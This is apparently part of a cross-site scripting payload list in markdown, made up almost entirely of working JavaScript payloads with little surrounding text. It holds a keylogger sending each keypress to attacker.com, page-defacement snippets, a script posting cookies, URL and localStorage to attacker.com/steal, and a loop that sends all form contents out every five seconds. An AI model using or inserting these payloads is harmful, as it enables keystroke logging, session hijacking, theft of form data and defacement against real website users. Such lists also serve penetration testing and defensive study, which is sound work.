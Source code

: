 ### Keylogger Payloads
```javascript
<script>
document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/keylog?key=' + e.key);
});
</script>
```

### DOM Manipulation Payloads
```javascript
<script>document.body.innerHTML = '<h1>Hacked!</h1>';</script>
<script>document.getElementById('main-container').style.display = 'none';</script>
```

### Advanced Payloads

#### Persistent Session Hijacking
```javascript
<script>
(function() {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attacker.com/steal', true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.send(JSON.stringify({
        url: window.location.href,
        cookies: document.cookie,
        userAgent: navigator.userAgent,
        localStorage: JSON.stringify(localStorage)
    }));
})();
</script>
```

#### Form Data Exfiltration
```javascript
<script>
setInterval(function() {
    var forms = document.querySelectorAll('form');
    forms.forEach(function(form) {
        var formData = new FormData(form);
        var data = {};
        for(var pair of formData.entries()) {
            data[pair[0]] = pair[1];
        }
        fetch('https://attacker.com/form-data', {
            method: 'POST',
            body: JSON.stringify(data)
        });
    });
}, 5000);
</script>
```
